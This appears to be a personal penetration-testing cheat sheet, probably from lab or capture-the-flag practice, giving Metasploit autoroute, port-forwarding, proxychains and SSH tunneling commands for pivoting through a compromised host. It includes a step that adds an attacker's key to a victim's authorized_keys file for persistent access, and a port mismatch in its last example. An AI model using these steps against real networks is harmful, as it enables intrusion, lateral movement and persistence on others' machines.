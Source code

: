  <h2> Proxying </h2> <br>
 
  If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  msfconsole<br>
pivoting, check ifconfig when you have a shell on the machine if you have a meterpreter shell, are there multiple nics?<br>
if yes, use autoroute<br>
background session -- background<br>
use post/multi/manage/autoroute<br>
set SESSION 1 (change if more than 1 session)<br>
set SUBNET 10.200.3.0 (change to submet needed)<br>
exploit<br>
if that doesnt work make sure your back in your session and run (change IPs) -- meterpreter > run autoroute -s 192.181.243.1/24 <br>
now you can use further auxiliary commands against the machine pivoting towards<br>
has nmap command which can be used with script comnmand --script(useful for pivoting)<br>
  background <br>
  for portscan - use auxiliary/scanner/portscan/tcp <br>
  set options and set everything <br>
  run <br>
  Identify ports of interest, now need to configure port forward. <br>
  access the session -- sessions -i NUMBER <br>
  ensure meterpreter shell and type -- portfwd add -l (PORT TO FORWARD, e.g. 555) -p (PORT ATTACKING) -r victimIP <br>
  background session <br>
  Now perform nmap -sV -sC scan on ported for e.g. -p 555 localhost still in msfconsole console
  Once found an exploit for version type -- search SERVICE and use whatever exploit <br>
  set IP to actual machines ip 
  exploit 
  
  
  <h2> Proxychains </h2>
  <br>
   If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  Now setup proxy <br>
 use auxiliary/server/socks_proxy <br>
 set VERSION 5 <br>
  type -- run <br>
 edit proxychains to socks5 and same port as metasploit using localhost 127.0.0.1 (/etc/proxychains.conf) <br>
 type --- proxychains nmap -T4 IP/CIDR and look for "OK" <br>
 every command is the same just add proxychains before
  
  
<h2> SSH Tunneling </h2> <br>
If you manage to get into a box via SSH or have comprimised a box and are able to ssh to the box <b>(if you have a shell as a user you can generate a new public key on my own kali machine -- ssh-keygen give it a name and a passphrase, then add this to the users ssh key file echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys),</b> you can check what local ports are running and then use SSH tunneling to access these from your attack machine <br>
when on the comprimised host (if linux) type -- ss -tulpn (take a look at ports running and the port number) <br>
if port 9001 is running and of interest youd type on your local machine  ssh apaar@10.10.202.42 -i key -L 9001:127.0.0.1:9001 (replace with username of victim machine and ip) <br>
 then browse to port by browser -- localhost:10000 <br>
